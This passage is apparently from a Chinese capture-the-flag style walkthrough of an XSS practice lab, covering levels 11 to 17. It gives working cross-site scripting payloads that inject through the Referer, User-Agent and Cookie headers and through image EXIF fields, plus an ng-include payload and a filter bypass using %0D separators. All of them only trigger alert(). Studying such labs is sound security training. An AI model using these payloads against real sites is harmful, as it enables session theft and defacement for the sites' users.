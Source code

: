 ```js
aaa" type="text" onclick="alert(/xss/)
```

##### Level-11

查看源码发现隐藏的四个input框有一个t_ref比较特殊，似乎value的内容刚好就是上一个页面的内容，尝试构造一个Referer试试：

```http
Referer: "type="text" onclick="alert(/xss/)
```

果然生效了。

##### Level-12

跟11题一样，不过变成了User-Agent。

##### Level-13

跟11题一样，不管换成了Cookie。

##### Level-14

这个题是要借助上传图片xss来完成。访问http://www.exifviewer.org，然后长传一个带有xss代码的图片触发xss。将图片的标题主题标记备注作者版权等信息全部修改为如下payload：

```
’ “><img src=xxx onerror=alert(/xss/)’ 1.jpeg
```

上传后，则可触发xss。

##### Level-15

这里用了 `angularjs` 的 `ng-include`, `ng-include` 指令用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。`ng-include` 属性的值可以是一个表达式，返回一个文件名。默认情况下，包含的文件需要包含在同一个域名下，相当于 PHP 的 `include` 函数。

本题payload：

```
/level15.php?src='level1.php?name=test<img src=1 onerror=alert(1)>'
```

(具体原理还没理解透彻，angularjs还没学过...)

##### Level-16

查看源码发现特殊符号和空格会被转义，`script` 会被替换成 ` `，并且转换为小写。

这里通过%0d %0a等分隔符绕过空格的过滤，同时使用img标签(不需要</img>)，payload：

```
?keyword=<img%0Dsrc=1%0Donerror=alert(/xss/)>
```

##### Level-17

查看源码发现这一行：

```html
<embed src=xsf01.swf?xxxxxxxxx=sssss width=100% heigth=100%><h2 align=center>成功后，<a href=level18.php?arg01=a&arg02=b>点我进入下一关</a></h2>
```
